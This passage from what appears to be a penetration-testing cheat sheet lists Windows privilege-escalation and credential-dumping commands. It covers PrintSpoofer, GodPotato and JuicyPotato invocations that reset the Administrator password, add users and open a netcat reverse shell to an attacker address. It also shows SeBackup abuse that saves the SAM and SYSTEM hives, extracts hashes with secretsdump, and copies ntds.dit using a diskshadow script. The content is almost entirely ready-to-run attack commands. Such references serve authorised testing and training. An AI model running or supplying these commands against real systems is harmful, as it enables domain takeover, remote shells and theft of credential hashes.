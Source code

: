 ```bash

# Modify admin user's password
.\PrintSpoofer64.exe -c "cmd /c net user Administrator Password123!"
```

GodPotato
- https://github.com/BeichenDream/GodPotato/releases
```bash
# Execute reverse shell
.\GodPotato-NET4.exe -cmd "shell.exe"

# Add user
.\GodPotato-NET4.exe -cmd "adduser.exe"

# NC reverse shell
.\GodPotato-NET4.exe -cmd "nc.exe <IP> <port> -e cmd.exe"

# Modify admin user's password
.\GodPotato-NET4.exe -cmd "cmd /c net user Administrator Password123!"
```

Juicypotato
- https://github.com/ohpe/juicy-potato/releases
- https://github.com/ivanitlearning/Juicy-Potato-x86/releases
```bash
.\Juicy-Potato-x86.exe -l 1337 -p "shell.exe" -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```
>[!info]
>CLSID based on OS: [link](https://github.com/ohpe/juicy-potato/tree/master/CLSID/)


#### SeBackup

Dumping SAM & SYSTEM hive from registry:
```bash
mkdir C:\temp
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive

# Dump hashes using secretsdump
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

Using diskshadow:
```bash
# Create script on Kali
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup

# Convert to msdos format
unix2dos script.txt

# Transfer script and use diskshadow
diskshadow.exe /s script.txt

# Transfer ntds.dit from the E:\ drive to the current folder
robocopy /b E:\Windows\ntds . ntds.dit

# Download ntds.dit
download ntds.dit
```